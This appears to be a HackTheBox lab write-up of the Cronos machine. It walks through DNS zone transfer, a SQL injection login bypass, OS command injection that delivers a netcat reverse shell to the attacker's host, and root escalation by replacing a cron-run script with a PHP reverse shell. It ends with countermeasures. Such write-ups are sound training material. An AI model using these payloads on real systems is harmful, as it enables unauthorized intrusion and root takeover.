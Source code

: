 ```yaml
---
layout: single
title:  "HackTheBox - Cronos"
date:   2020-09-24
excerpt: "Cronos was an older medium level machine that leaked its subdomains via a DNS zone transfer.From there, I found subdomain with a login form where I was able to bypass authentiction via basic MySQL injection. After logging into the web application, I was able to leverage OS command injection to get remote code execution on the machine. Once on the machine, I wrote a PHP reverse shell to the file the system's cronjob was executing to get remote code execution as root."
header:
  teaser: /assets/images/htb-cronos/cronos.png
categories:
  - hackthebox
  - infosec
tags:
  - dns enumeration
  - dns zone transfer
  - web enumeration
  - sql injection 
  - cron job exploitation
---
```


![](/assets/images/htb-cronos/cronos.png)

#### Machine Release Date: March 22, 2017

## Summary

Cronos was an older medium level machine that leaked its subdomains via a DNS zone transfer.
From there, I found subdomain with a login form where I was able to bypass authentiction via basic MySQL injection.
After logging into the web application, I was able to leverage OS command injection to get remote code execution on the machine.
Once on the machine, I wrote a PHP reverse shell to the file the system's cronjob was executing to get remote code execution as root.

## Skills Learned

* Domain Guessing
* DNS Zone Transfer
* Web Enumeration
* Basic SQL Injection (Auth Bypass)
* Exploiting Cron Jobs

## Active Ports

```bash
sudo nmap -p22,53,80 -sC -sV -oA nmap/full-tcp-version 10.10.10.13
```

```
Nmap scan report for 10.10.10.13
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 24 12:54:14 2020 -- 1 IP address (1 host up) scanned in 15.06 seconds
```

## Failed Recon

* Nothing interesting found by brute forcing web files and directories in both `cronos.htb` and `admin.cronos.htb` subdomains.
* PHP password reuse failed.

## DNS Enumeration (DNS Zone Transfer)

With a lucky guess for for the domain name `cronos.htb`, I was able to perform a DNS zone transfer, further discovering more subdomains:

```
$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.6-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 35 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Thu Sep 24 12:58:54 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```

I then added `cronos.htb`, `admin.cronos.htb`, and `www.cronos.htb` to my `/etc/hosts` file so that my Kali machine would resolve those domain names to 10.10.10.13.
I did this because the Apache web server was hosting different web pages on differnt subdomains using virtual hosting.

## Exploitation (SQL Injection Authentication Bypass)

Navigating to `admin.cronos.htb`, I was presented with a login page.
I was able to use SQL injection at `http://admin.cronos.htb` in the `username` field with the following payload to bypass authentication:

```mysql
' OR 1=1;#
```

![](/assets/images/htb-cronos/cronos-admin-cronos-htb-default-login-jpage.png)

![](/assets/images/htb-cronos/cronos-username-field-sql-injection-auth-bypass.png)

I was then able to submit the following payload in the web form to achieve OS command injection and get a netcat reverse shell:

```
10.10.10.19; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f
```

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:35428.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation (Cronjob Running Writeable Script by Low-Privileged User)

I noticed that the `/etc/crontab` file executed `/var/www/laravel/artisan` every minute.
This directory was writeable by the `www-data` user which meant that I should be able to replace that file with a PHP reverse shell to gain root access to the machine:

```
www-data@cronos:/var/www/admin$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#

www-data@cronos:/var/www/admin$ ls -l /etc/crontab
-rw-r--r-- 1 root root 797 Apr  9  2017 /etc/crontab

www-data@cronos:/var/www/admin$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

After making a backup of `/var/www/laravel/artisan`, I embedded [the following php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) in `/var/www/laravel/artisan` so that it would execute it, connecting back to my netcat listener in the next minute:

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:52538.
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:28:01 up 10 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```

At this point, I had a reverse shell with root privileges.

## Countermeasures

* Only allow DNS zone transfers [from trusted IPs](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/).
* Use [prepared statements](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html) for all SQL queries so that data does not get interpreted as code.
* Never run cron jobs that depend on scripts writeable by low-privielged users.
